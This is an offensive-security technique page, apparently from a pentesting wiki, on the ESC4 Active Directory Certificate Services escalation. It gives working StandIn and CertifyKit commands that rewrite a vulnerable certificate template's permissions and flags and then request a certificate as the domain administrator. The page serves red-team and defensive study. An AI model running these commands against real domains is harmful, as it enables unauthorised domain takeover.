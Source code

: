 ```yaml
---
description: Domain escalation via misconfigured certificate template access control
---
```


# 4️⃣ ESC4

ESC4 is relatively unique in its exploitation, utilizing mainly Active Directory ACL permissions.

This misconfiguration can occur when unintended users are granted one of the following template security permissions:

* Owner
* FullControl
* WriteOwnerPrincipals
* WriteDaclPrincipals
* WritePropertyPrincipals

Then such a user can modify the target template to configure the specific conditions for an ESC1 attack, then request a certificate as the Domain Administrator.

#### Adding Certificates with StandIn

To add certificates using StandIn, follow these examples:

*   **Certificate Enrollment Permission**: To allow Domain Users to enroll for certificates, use the following command:

    {% code fullWidth="true" %}
    ```powershell
    StandIn_v13_Net45.exe --ADCS --filter SecureUpdate ntaccount "cb domain users" --enroll --add
    ```
    {% endcode %}
*   **Client Authentication EKU**: To add a certificate with Client Authentication EKU, execute:

    ```powershell
    StandIn_v13_Net45.exe --ADCS --filter SecureUpdate --clientauth --add
    ```

ENROLLEE\_SUPPLIES\_SUBJECT:

```
StandIn_v13_Net45.exe --ADCS --filter SecureUpdate --ess --add
```

An example for SmartCardLogon ESC4 Abuse using CertifyKit’s /alter option is as follows:

{% code fullWidth="true" %}
```
CertifyKit.exe request /ca:cb-ca.cb.corp\CB-CA /template:'SecureUpdate' /altname:administrator
/domain:cb.corp /alter /sidextension:S-1-5-21-2928296033-1822922359-262865665-500
```
{% endcode %}
